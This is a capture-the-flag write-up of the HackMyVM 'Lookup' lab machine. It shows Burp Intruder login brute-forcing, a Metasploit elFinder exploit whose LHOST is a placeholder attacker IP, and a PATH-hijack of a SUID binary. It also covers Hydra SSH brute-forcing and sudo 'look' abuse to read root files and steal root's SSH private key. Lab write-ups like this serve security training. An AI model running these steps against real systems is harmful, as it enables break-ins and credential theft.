



# HackMyVM: Lookup (HMV) - Writeup

**Author:** Om Chaudhari (MRWhiteCap)<br>
**Platform:** [HackMyVM](https://hackmyvm.eu/)

**Difficulty:** Easy/Medium<br>
**Skills:** Brute-force attacks with Burp Suite Intruder, virtual host discovery, elFinder exploitation via Metasploit, SUID binary abuse (PATH hijacking), Hydra brute-forcing, GTFOBins privilege escalation

---
## Recon

```bash
nmap -sC -sV 192.168.0.103
```
Two open ports: `22/tcp` (OpenSSH 8.2p1 Ubuntu) and `80/tcp` (Apache 2.4.41, redirecting to `http://lookup.hmv`).

## Web Enumeration & Login Brute-Force

- Added `lookup.hmv` to `/etc/hosts` and browsed to the site, landing on a login page.
- Captured the login request in **Burp Suite** and sent it to **Intruder**.
- Ran a **dictionary attack on the password field**, identifying `password123` as a valid password.
- Reused the same login request in Intruder, this time targeting the **username field** while holding the known password constant, and identified `jose` as a valid username.
- Logging in initially failed until a second virtual host, `files.lookup.hmv`, was also added to `/etc/hosts`.
- Logged in successfully as `jose`, landing in a web-based file manager identified as **elFinder**.

## Exploiting elFinder

- Browsed to `http://files.lookup.hmv/elFinder/Changelog` to fingerprint the exact elFinder version in use which is `elfinder 2.1.47`
  
- Searched **ExploitDB** for known vulnerabilities matching that version and found a suitable public exploit.
- Used **Metasploit** to weaponize the exploit:
  ```bash
  msfconsole
  use <elfinder_exploit_module>
  set RHOST 192.168.0.103
  set LHOST <attacker_ip>
  run
  ```
  
- Gained shell access on the target.

## Privilege Escalation — First Pivot (`www-data` → `think`)

- Enumerated SUID binaries and identified `/usr/sbin/pwm` as unusual.
  ```bash
    find / -user root -perm -4000 2>/dev/null
  ```
- Analysis showed `pwm` calls `id` to resolve the current username, but fails to locate a `.passwords` file, since it expects a home directory path belonging to the user **`think`**.
  
  
- Abused this by hijacking the `PATH` variable and planting a fake `id` binary:
  ```bash
  mkdir -p /tmp
  echo -e '#!/bin/bash\necho "uid=1000(think) gid=1000(think) groups=1000(think)"' > /tmp/id
  chmod +x /tmp/id
  export PATH=/tmp:$PATH
  ```
- Ran `/usr/sbin/pwm`, which was tricked into disclosing the contents of the `think` user's password file.
- Saved the leaked password list to `pass.txt` and brute-forced the `think` user's SSH login with **Hydra**:
  ```bash
  hydra -l think -P pass.txt ssh://192.168.0.103
  ```
- Successfully logged in via SSH as **`think`**.

## Privilege Escalation — Root

- As `think`, checked available sudo rights:
  ```bash
  sudo -l
  ```
- Found `/usr/bin/look` allowed to run as root — a known **GTFOBins** entry.
  > Reference: [GTFOBins — look](https://gtfobins.github.io/gtfobins/look/#sudo)
- Used the GTFOBins technique to read `root.txt`:
  ```bash
  sudo look '' LFILE=/root/root.txt
  ```
- Reused the same technique to exfiltrate the root user's `id_rsa` private key.
- Saved the key locally, set correct permissions:
  ```bash
  chmod 600 id_rsa
  ```
- Logged in directly as root via SSH:
  ```bash
  ssh -i id_rsa root@192.168.0.103
  ```
- Boom, rooted.

## Key Takeaways

- Burp Suite Intruder is highly effective for chained brute-forcing — cracking the password first, then pivoting to find the matching username, narrows the search significantly.
- Multiple virtual hosts on the same target are common in CTF-style boxes; always check for additional subdomains when a login redirects unexpectedly.
- SUID binaries that shell out to system commands like `id` without specifying an absolute path are vulnerable to **PATH hijacking**.
- GTFOBins is essential once `sudo -l` reveals an allowed binary — many "safe-looking" utilities like `look` have documented privilege escalation primitives.
- File-read primitives via GTFOBins aren't limited to flags — they can also be used to steal SSH private keys for full root access.

> 📖 **Original Medium Article:**
> https://medium.com/@mrwhitecap/hackmyvm-lookup-<slug-here>
